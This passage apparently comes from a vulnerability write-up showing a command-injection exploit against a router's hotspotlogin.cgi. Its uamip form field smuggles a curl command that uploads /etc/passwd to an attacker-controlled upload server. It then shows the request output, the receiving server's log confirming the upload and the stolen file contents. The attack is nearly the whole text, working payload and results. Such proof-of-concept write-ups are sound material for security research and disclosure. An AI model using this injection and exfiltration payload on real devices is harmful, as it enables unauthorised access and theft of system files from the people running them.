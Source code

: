 Sending the exploit

```bash
curl -v -o /dev/null "http://192.168.1.1/cgi-bin/hotspotlogin.cgi" -d 'send=1&uamip="; curl -X POST http://192.168.1.110:8000/upload -F "files=@/etc/passwd" #'
```

```bash
*   Trying 192.168.1.1:80...
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0* Connected to 192.168.1.1 (192.168.1.1) port 80 (#0)
> POST /cgi-bin/hotspotlogin.cgi HTTP/1.1
> Host: 192.168.1.1
> User-Agent: curl/7.82.0
> Accept: */*
> Content-Length: 87
> Content-Type: application/x-www-form-urlencoded
> 
} [87 bytes data]
100    87    0     0  100    87      0     27  0:00:03  0:00:03 --:--:--    27* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Connection: close
< Transfer-Encoding: chunked
100    87    0     0  100    87      0     23  0:00:03  0:00:03 --:--:--    23< Content-Type: text/html; charset=utf-8
< 
{ [5 bytes data]
100  2760    0  2673  100    87    736     23  0:00:03  0:00:03 --:--:--   759
* Closing connection 0
                                                                                                 
```

Let's see our server

```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m uploadserver
File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.1 - - [24/Jul/2022 17:45:48] Upload of "passwd" accepted
192.168.1.1 - - [24/Jul/2022 17:45:48] "POST /upload HTTP/1.1" 204 -
192.168.1.1 - - [24/Jul/2022 17:45:50] Upload of "passwd" accepted
192.168.1.1 - - [24/Jul/2022 17:45:50] "POST /upload HTTP/1.1" 204 -

```

We were able to get the passwd file, let's check it

```bash
root:x:0:0:root:/root:/bin/ash
daemon:*:1:1:daemon:/var:/bin/false
ftp:*:55:55:ftp:/home/ftp:/bin/false
network:*:101:101:network:/var:/bin/false
nobody:*:65534:65534:nobody:/var:/bin/false

```
